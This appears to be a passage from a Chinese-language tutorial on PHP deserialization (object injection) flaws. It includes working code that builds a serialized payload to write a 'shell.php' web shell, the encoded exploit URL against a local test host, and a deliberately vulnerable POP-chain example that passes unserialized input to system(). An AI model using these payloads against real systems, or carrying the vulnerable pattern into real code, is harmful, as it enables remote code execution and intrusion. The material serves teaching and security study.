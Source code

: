 ```php
?>
```
构造payload的代码:
```php
<?php 
	 class CacheFile{
	 	protected $_localStore = '<?php phpinfo();?>';
	 	protected $_cacheFileName = 'shell.php';
	 	protected $_cacheChanged = true;
	 }

	 print urlencode(serialize(new CacheFile()));
?>
```
利用：
```
http://hack.lo/obi/?rest_data=O%3A9%3A%22CacheFile%22%3A3%3A{s%3A14%3A%22%00*%00_localStore%22%3Bs%3A18%3A%22%3C%3Fphp+phpinfo()%3B%3F%3E%22%3Bs%3A17%3A%22%00*%00_cacheFileName%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A16%3A%22%00*%00_cacheChanged%22%3Bb%3A1%3B}
```
要留意类成员变量的访问限制关键字。   

## POP Chain
POP(Property-Oriented Programming)，是Esser在2009年的时候提出的一个对象注入的利用方法。当你找到的魔术方法不可以直接利用，但它有调用其它方法或者使用其它的变量时，可以在其它的类中寻找同名的方法或是变量，直到到达一个可以利用的点。这样的攻击方法称为代码复用攻击(将内存中的代码片段一点一点的组合起来，并最终构造成一个可以利用的payload)。这个一步一步把代码连起来的攻击过程在PHP应用里被称为构造POP链对对象注入漏洞进行利用。
漏洞代码例子:
```php
<?php 
	class Systeminfo{
		public $cmd = 'systeminfo';

		public function getinfo(){
			system($this->cmd);
		}

		public function show(){
			$this->getinfo();
		}
	}

	class Books{
		public $bookname = 'This is bookname!';

		public function show(){
			echo $this->bookname;
		}
	}

	class Display{
		public $handle;

		public function __construct(){
			$this->handle = new Books();
		}

		public function __destruct(){
			$this->handle->show();
		}
	}

	$data = unserialize($_REQUEST['data']);
?>
```